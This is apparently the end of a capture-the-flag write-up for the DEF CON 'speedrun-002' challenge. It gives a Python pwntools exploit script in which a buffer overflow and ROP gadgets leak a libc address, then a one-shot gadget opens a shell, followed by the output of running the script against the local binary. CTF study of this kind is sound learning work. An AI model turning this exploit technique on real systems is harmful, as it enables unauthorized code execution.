 ```
target.sendline('Everything intelligent is so boring.')

print target.recvuntil('Tell me more.')

# Overflow with rop gadget to get libc infoleak,
# And hit vulnerable code path again
payload = '0'*0x408

payload += p64(popRdi)
payload += p64(putsGot)
payload += p64(putsPlt)
payload += p64(ret)


target.send(payload)

print target.recvuntil('Fascinating.\x0a')

# Scan in and filter out infoleak, get libc base

leak = target.recvline().replace("\x0a", "")
leak = u64(leak + "\x00"*(8 - len(leak)))
libcBase = leak - libc.symbols['puts']

# Get address of /bin/sh
binsh = libcBase + 0x1b3e9a

print "libc base: " + hex(libcBase)

# Prep the oneshot gadget overflow
payload = '0'*0x408
payload += p64(libcBase + 0x4f322)

target.sendline('Everything intelligent is so boring.')

print target.recvuntil('Tell me more.')

# Send the oneshot gadget payload
target.send(payload)

target.interactive()
```

When we run it:
```
$	python exploit.py 
[+] Starting local process './speedrun-002': pid 22113
[*] '/Hackery/defcon/speedrun/s2/speedrun-002'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/Hackery/defcon/speedrun/s2/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
We meet again on these pwning streets.
What say you now?
What an interesting thing to say.
Tell me more.

```